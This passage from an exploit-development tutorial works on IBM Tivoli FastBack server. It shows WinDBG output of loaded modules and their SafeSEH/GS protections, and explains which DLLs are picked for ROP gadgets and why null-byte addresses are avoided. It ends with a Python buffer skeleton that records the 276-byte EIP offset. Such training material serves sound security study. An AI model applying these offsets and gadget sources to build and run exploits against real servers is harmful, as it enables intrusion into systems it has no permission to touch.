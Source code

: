 Let’s look at possible modules to be used for our ROP chains, we all the modules loaded in WinDBG. 

```python
.load narly
!nnmod

0:001> !nmod
~~001d0000 001fd000 libcclog             /SafeSEH OFF                C:\Program Files\Tivoli\TSM\FastBack\server\libcclog.dll
00400000 00c0c000 FastBackServer       /SafeSEH OFF                C:\Program Files\Tivoli\TSM\FastBack\server\FastBackServer.exe
00fe0000 01013000 snclientapi          /SafeSEH OFF                C:\Program Files\Tivoli\TSM\FastBack\server\snclientapi.dll~~
01320000 01362000 NLS                  /SafeSEH ON  /GS            C:\Program Files\Tivoli\TSM\FastBack\Common\NLS.dll
013a0000 013cb000 gsk8iccs             /SafeSEH OFF                C:\Program Files\ibm\gsk8\lib\gsk8iccs.dll
01430000 0146a000 icclib019            /SafeSEH ON  /GS            C:\Program Files\ibm\gsk8\lib\N\icc\icclib\icclib019.dll
03080000 03170000 libeay32IBM019       /SafeSEH OFF                C:\Program Files\ibm\gsk8\lib\N\icc\osslib\libeay32IBM019.dll
10000000 1003d000 SNFS                 /SafeSEH OFF                C:\Program Files\Tivoli\TSM\FastBack\server\SNFS.dll
50200000 50237000 CSNCDAV6             /SafeSEH ON  /GS            C:\Program Files\Tivoli\TSM\FastBack\server\CSNCDAV6.DLL
~~50500000 50577000 CSFTPAV6             /SafeSEH ON  /GS            C:\Program Files\Tivoli\TSM\FastBack\server\CSFTPAV6.DLL~~
51000000 51032000 CSMTPAV6             /SafeSEH ON  /GS            C:\Program Files\Tivoli\TSM\FastBack\server\CSMTPAV6.DLL
```

Based on the output, we see the following options available to us. The first three options would invoke NULL bytes e.g. 001 and 004 on the address space, so we skip them. We previously used `CSFTPAV6.DLL` and as this is for extra practice, we skip the module. We end up using the following three files:

```python
CSMTPAV6.DLL
CSNCDAV6.DLL
SNFS.DLL
```

## Preparing for ROP <a name="ROP"></a>

We don’t have to do much to prepare for our ROP chain, we’ve already worked out the offsets in our previous endeavors as shown below.

```python
#3. We set our ROP buffer
offset = b"A" * 276
eip = b"B" * 4
rop = b"C" * (0x400 - 276 - 4) 
```
